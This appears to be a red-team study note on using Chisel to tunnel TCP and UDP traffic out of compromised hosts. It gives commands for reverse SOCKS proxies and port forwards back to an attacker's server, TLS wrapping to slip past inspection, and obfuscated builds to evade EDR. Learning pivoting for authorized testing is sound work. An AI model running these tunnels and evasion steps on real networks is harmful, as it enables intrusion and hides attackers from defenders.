

# 73.04 Chisel for TCP & UDP Tunneling

## 1. Introduction to Chisel
When SSH is unavailable on a target (e.g., highly restricted Windows environments, hardened Linux containers without `sshd`), or when strict egress filtering drops recognizable SSH protocol traffic, standard pivoting techniques completely fail. **Chisel** is a fast, robust TCP/UDP tunnel, transported over HTTP and secured via the SSH protocol under the hood. 

Written entirely in Golang, Chisel compiles statically into a single binary, making it incredibly portable across Windows, Linux, and macOS. It operates via a client-server architecture and utilizes WebSockets to encapsulate its traffic. Because the resulting network traffic looks identical to standard HTTP/HTTPS WebSockets, it effortlessly bypasses Deep Packet Inspection (DPI) engines and strict corporate edge proxies.

## 2. ASCII Architecture Diagram



## 3. Architecture and Core Mechanics
Chisel multiplexes all connections over a single persistent TCP connection (via WebSockets). Inside this WebSocket, it leverages the `yamux` multiplexer and the SSH protocol library to handle connection multiplexing, encryption, and routing. 

- **Chisel Server**: Listens for incoming connections from clients. It is typically run on the attacker's machine.
- **Chisel Client**: Connects out to the server and requests to establish either forward or reverse tunnels.

Unlike standard SSH pivoting, Chisel requires no native SSH daemon on the target. The standalone client and server binaries handle everything autonomously.

## 4. Setting up the Chisel Server
In standard operational workflows, the attacker runs the Chisel server on their local machine or a cloud C2 redirector, waiting for the compromised target to phone home and establish a connection (Reverse Port Forwarding).

```bash
# Run Chisel server on port 8000, explicitly allowing reverse port forwards
chisel server -p 8000 --reverse
```
- `-p 8000`: Specifies the listening port for the incoming HTTP/WebSocket traffic.
- `--reverse`: A critical security flag that permits authenticated clients to request reverse port forwards. Without this flag, clients can only forward traffic *to* the server, but cannot open listening ports *on* the server.

## 5. Executing the Chisel Client
Once the server is listening, the attacker transfers the Chisel client binary to the compromised target machine and executes the connection string.

### 5.1. Establishing a Reverse SOCKS Proxy
This is the most common use case during an engagement. The target connects to the attacker and dynamically opens a SOCKS5 proxy on the attacker's local machine.

```bash
# On the compromised Windows/Linux target
chisel client 192.168.1.10:8000 R:1080:socks
```
- `192.168.1.10:8000`: The attacker's server IP and listening port.
- `R`: Denotes a **Reverse** forward request.
- `1080:socks`: Instructs the server to open port 1080 on its local interface, providing a SOCKS5 proxy routed back through the client into the target network.

The attacker can now use `proxychains` configured to `socks5 127.0.0.1 1080` to sweep the internal network.

### 5.2. Forwarding Specific Static Ports
If only a single internal service needs to be accessed (e.g., an internal SQL database or an RDP session), Chisel can map it directly:
```bash
chisel client 192.168.1.10:8000 R:3306:10.10.10.100:3306
```
This opens port `3306` on the attacker's machine, securely routed through the WebSocket client to `10.10.10.100:3306`.

## 6. UDP Tunneling Capabilities
Traditional SSH dynamically drops all UDP traffic. Chisel, however, supports tunneling UDP packets over its TCP WebSocket connection. This is highly beneficial for internal DNS enumeration, SNMP sweeping, or pivoting UDP-based protocols.

```bash
# Forwarding local UDP port 53 to remote UDP port 53
chisel client 192.168.1.10:8000 53:8.8.8.8:53/udp
```
*Architectural Note: Tunneling UDP over TCP can suffer from severe TCP retransmission delays, leading to jitter and performance degradation. While it is not suitable for high-bandwidth streaming, it remains highly effective for slow-paced administrative scanning.*

## 7. Evasion and Obfuscation
Because Chisel is a widely known offensive tool, its default binary signatures are heavily flagged by modern EDRs (Windows Defender, CrowdStrike, SentinelOne).

### 7.1. TLS Encryption and DPI Bypass
By default, Chisel traffic begins as unencrypted HTTP until the SSH multiplexer kicks in. To bypass strict HTTPS proxies and DPI engines, attackers wrap the WebSocket connection in full TLS.
```bash
# 1. Generate self-signed certs (or use Let's Encrypt for better OPSEC)
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem

# 2. Server side: Enable TLS
chisel server -p 443 --reverse --tls-key key.pem --tls-cert cert.pem

# 3. Client side: Connect via WSS (WebSocket Secure) and skip cert verification
chisel client --tls-skip-verify https://192.168.1.10:443 R:1080:socks
```

### 7.2. Compiling for Evasion (Go Obfuscation)
To evade static binary analysis and signature detection, attackers compile Chisel from source with obfuscation flags, stripping all debug symbols.
```bash
# Build with ldflags to strip debug info and trim paths
go build -ldflags="-s -w" -trimpath -o chisel_obf main.go

# Pack with UPX (Use cautiously, UPX section headers are heavily signatured)
upx --best --lzma chisel_obf

# Better alternative: Garble (A robust Go obfuscator)
garble -tiny build -ldflags="-s -w" main.go
```

## 8. Chisel vs. Other Tools
- **vs Standard SSH**: Chisel is significantly easier to deploy on Windows, requires absolutely no administrative privileges to run, and seamlessly encapsulates its traffic in WebSockets to defeat firewall rules.
- **vs Meterpreter AutoRoute**: Chisel is drastically more stable than Metasploit's native `autoroute` for heavy traffic (like comprehensive Nmap scans) and rarely crashes the host process.
- **vs Ligolo-ng**: Chisel provides Layer 5 SOCKS or direct port mapping. Ligolo-ng provides full Layer 3 TUN interface routing, making Ligolo superior for full network integration.

## 9. Troubleshooting and Resilience
- **Connection dropped/Reset**: This is often caused by intermediate corporate proxies blocking long-lived WebSockets. Utilizing the `--tls` flag usually resolves this issue by hiding the WebSocket upgrade request.
- **High CPU Usage**: Chisel's internal multiplexing can spike CPU usage on the target if routing extremely heavy traffic (e.g., massive Nmap UDP scans). Use Nmap timing flags (`-T2`) to rate-limit traffic.
- **Client Disconnects**: Tunnels may drop due to network instability. Use a bash `while` loop or a Windows Scheduled Task to automatically restart the Chisel client if the process exits.

## 10. Chaining Opportunities
- Chisel is the ideal fallback bridge when [[02 - SSH Tunneling and SOCKS Proxies]] is impossible due to restricted environments.
- Pair the robust SOCKS proxy generated by Chisel with [[03 - ProxyChains and Traffic Routing]] for seamless offensive tool integration.
- For true VPN-like access without the overhead of proxychains, upgrade from Chisel to [[05 - Ligolo-ng Advanced TUN Interface Pivoting]].

## 11. Related Notes
- [[01 - Port Forwarding Local Remote and Dynamic]]
- [[02 - SSH Tunneling and SOCKS Proxies]]
- [[03 - ProxyChains and Traffic Routing]]
- [[05 - Ligolo-ng Advanced TUN Interface Pivoting]]
